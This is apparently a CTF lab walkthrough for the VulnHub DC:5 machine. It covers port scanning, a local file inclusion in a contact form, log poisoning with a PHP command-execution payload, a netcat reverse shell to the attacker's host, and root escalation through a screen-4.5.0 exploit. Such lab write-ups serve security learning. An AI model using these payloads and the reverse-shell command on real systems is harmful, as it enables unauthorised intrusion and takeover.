 # DC:5 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

DC:5 is a CTF created by DCAU. You can find the technical information about this CTF on the VulnHub page. First of all, make sure to download and install the correct OVA file from VulnHub. (https://download.vulnhub.com/dc/DC-5.zip).

This CTF is more challenging than others. Because it is hard to find LFI vulnerability at first. But exploitation is more simple than others.

## 1-Recon
As always, I started with reconnaissance. I used Rustscan, nmap, directory searching, and reviewed the website’s code.
```bash
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 64
111/tcp   open  rpcbind syn-ack ttl 64
47089/tcp open  unknown syn-ack ttl 64

nmap -PN -sC -sV --script vuln -p 80,111,47089 <machine_ip> -oN finalscan

dirsearch -u <machine_ip>
```

It is not a CMS, so there’s no need to add this machine’s IP to /etc/hosts. I didn’t find anything special from either the port scanning or directory scanning.

When I visited the webpage, I saw directories like home, solutions, about us, and so on.

![DC5](https://miro.medium.com/v2/resize:fit:828/format:webp/1*qfbk60arf9LQfYxUQFu1RA.png "DC5")

It is obvios that contact page is suspicious. So I tried to found some bug with burpsuite here.

I give the parameters website to contact and the url was looking like this :

![DC5](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*ub_v_OSz60LMq8y26-ygzA.png "DC5")

I tried changing the variables and attempted directory traversal using "../../../", but I didn’t find anything. Finally, I added an argument file=/etc/passwd, and it gave me the passwd file. This vulnerability is called Local File Inclusion (LFI), and it’s a critical vulnerability.

I checked the access.log and error.log files because they store user requests, and it seems I can modify them. The access.log file logs user requests to the server, while error.log logs errors generated by the server.

```bash
10.0.2.4 - - [23/Oct/2024:10:05:33 -0400] "GET / HTTP/1.1" 200 432 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```

![DC5](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*0NcYYUKR5eBhYQAvVVLikA.png "DC5")

As you can see above access.log keeps the header parameters too. So I can inject some malicious code here. I injected below php code for giving me the authority to run commands on website. So that I will take the reverse shell.

## 2- Reverse Shell

I poison the url by :

```bash
10.0.2.14/thankyou.php?firstname=yigit&lastname=drbk&file=<?php system($_GET['cmd']) ?>
```
This command will add a php code in access.log directory. I can access it with url and run the netcat now.

```bash
http://10.0.2.14/thankyou.php?firstname=merhaba&lastname=merhaba&file=/var/log/nginx/error.log&cmd=id 
```

The above example is example of how can I run the command with cmd.

I run the netcat on my local computer and connect it with url.

```bash
rlwrap nc -lvnp 1234

http://10.0.2.14/thankyou.php?file=/var/log/nginx/error.log&cmd=nc -e /bin/bash 10.0.2.4 1234
```

So that I have a shell. I run the next classic commands.

```bash
pyton -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

I tried to find out what I could run with root privileges on this machine because the current user is www-data, and I wanted to escalate to root. Running sudo -l and some basic find commands didn’t yield any results. I also checked the operating system version and other details. After researching online, I found the next command that helped.

```bash
find / -perm -u=s -type f 2>/dev/null
```

This give me something interesting.

![DC5](https://miro.medium.com/v2/resize:fit:640/format:webp/1*A4qZBu72aqrAzjIGwMKYOg.png "DC5")

As you can see above, at first glance, screen-4.5.0 looked suspicious. So, I searched for it using searchsploit. Searchsploit provided a PoC (Proof of Concept) text file and an exploit bash script. The next step is to follow the instructions in the exploit file.

![DC5](https://miro.medium.com/v2/resize:fit:828/format:webp/1*vZqFH0EdBCgnnHeZiv9ekA.png "DC5")

After that you should compile the files like the yellow lines. And then you should give the files to your www-data user session (netcat session).

You can do this as below

```bash
python -m SimpleHttpServer
php -S <machine_ip>:<port>
```

Finally get this files with wget and run. Now you have root and you can read the flag.

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)

